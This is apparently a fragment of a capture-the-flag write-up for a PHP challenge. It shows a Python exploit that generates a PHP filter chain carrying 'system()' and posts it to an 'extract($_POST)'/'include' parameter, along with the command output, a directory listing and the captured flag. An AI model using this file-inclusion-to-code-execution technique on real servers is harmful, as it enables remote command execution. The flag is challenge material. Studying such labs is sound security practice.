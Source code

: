 ```python=
result = subprocess.Popen(['python', './php_filter_chain_generator/php_filter_chain_generator.py', '--chain', f'<?php system("{command}")?>'], stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)

payload, _ = result.communicate()
# print(payload.splitlines())
data = {"👀": payload.splitlines()[-1]}
response = requests.post(url, data=data)
print(response.text)
```
```bash
$ python exp.py ls
<h1>👻 Stage 4 / 4</h1><code><span style="color: #000000">
<span style="color: #0000BB">&lt;?php<br /></span><span style="color: #007700">echo&nbsp;</span><span style="color: #DD0000">'&lt;h1&gt;👻&nbsp;Stage&nbsp;4&nbsp;/&nbsp;4&lt;/h1&gt;'</span><span style="color: #007700">;<br /><br /></span><span style="color: #0000BB">highlight_file</span><span style="color: #007700">(</span><span style="color: #0000BB">__FILE__</span><span style="color: #007700">);<br />echo&nbsp;</span><span style="color: #DD0000">'&lt;hr&gt;'</span><span style="color: #007700">;<br /></span><span style="color: #0000BB">extract</span><span style="color: #007700">(</span><span style="color: #0000BB">$_POST</span><span style="color: #007700">);<br /><br />if&nbsp;(isset(</span><span style="color: #0000BB">$👀</span><span style="color: #007700">))&nbsp;<br />&nbsp;&nbsp;&nbsp;&nbsp;include(</span><span style="color: #0000BB">$👀</span><span style="color: #007700">);<br />else&nbsp;die(</span><span style="color: #DD0000">'ERROR:&nbsp;👀&nbsp;should&nbsp;be&nbsp;given'</span><span style="color: #007700">);</span>
</span>
</code><hr>bin
boot
dev
etc
flag_cr14x5hc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
�
P�������>==�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@
$ python exp.py cat /flag_cr14x5hc
<h1>👻 Stage 4 / 4</h1><code><span style="color: #000000">
<span style="color: #0000BB">&lt;?php<br /></span><span style="color: #007700">echo&nbsp;</span><span style="color: #DD0000">'&lt;h1&gt;👻&nbsp;Stage&nbsp;4&nbsp;/&nbsp;4&lt;/h1&gt;'</span><span style="color: #007700">;<br /><br /></span><span style="color: #0000BB">highlight_file</span><span style="color: #007700">(</span><span style="color: #0000BB">__FILE__</span><span style="color: #007700">);<br />echo&nbsp;</span><span style="color: #DD0000">'&lt;hr&gt;'</span><span style="color: #007700">;<br /></span><span style="color: #0000BB">extract</span><span style="color: #007700">(</span><span style="color: #0000BB">$_POST</span><span style="color: #007700">);<br /><br />if&nbsp;(isset(</span><span style="color: #0000BB">$👀</span><span style="color: #007700">))&nbsp;<br />&nbsp;&nbsp;&nbsp;&nbsp;include(</span><span style="color: #0000BB">$👀</span><span style="color: #007700">);<br />else&nbsp;die(</span><span style="color: #DD0000">'ERROR:&nbsp;👀&nbsp;should&nbsp;be&nbsp;given'</span><span style="color: #007700">);</span>
</span>
</code><hr>TSC{y0u_4r3_my_0ld_p4l}
```